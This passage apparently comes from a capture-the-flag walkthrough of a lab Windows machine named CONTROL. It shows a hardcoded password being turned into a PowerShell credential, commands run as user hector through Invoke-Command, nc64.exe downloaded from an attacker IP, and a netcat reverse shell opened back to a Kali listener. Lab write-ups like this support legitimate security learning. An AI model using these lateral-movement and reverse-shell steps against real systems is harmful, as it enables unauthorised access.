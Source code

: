 
### Run Commands as hector

With that password, I’ll try to run a command as hector. I’ll start
`powershell`:

    
    
    C:\>powershell
    
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\>
    

Now I’ll create a credential object:

    
    
    PS C:\> $env:ComputerName
    CONTROL
    PS C:\> $username = "CONTROL\hector"
    PS C:\> $password = "l33th4x0rhector"
    PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
    PS C:\> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
    PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
    

Now I’ll use `Invoke-Command` to run commands as hector, and it works:

    
    
    PS C:\> Invoke-Command -Computer localhost -Credential $cred -ScriptBlock { whoami }
    control\hector
    

### Shell as hector

For some reason, hector can’t access the `nc.exe` I uploaded to
`\windows\temp`, but I’ll upload another copy, and run it:

    
    
    PS C:\> wget 10.10.14.4/nc64.exe -outfile \windows\system32\spool\drivers\color\nc64.exe
    
    PS C:\> Invoke-Command -credential $cred -ScriptBlock { \windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.4 443 } -computer localhost
    

And I get a shell as hector:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.167.
    Ncat: Connection from 10.10.10.167:52486.
    Microsoft Windows [Version 10.0.17763.805]
    (c) 2018 Microsoft Corporation. All rights reserved.
    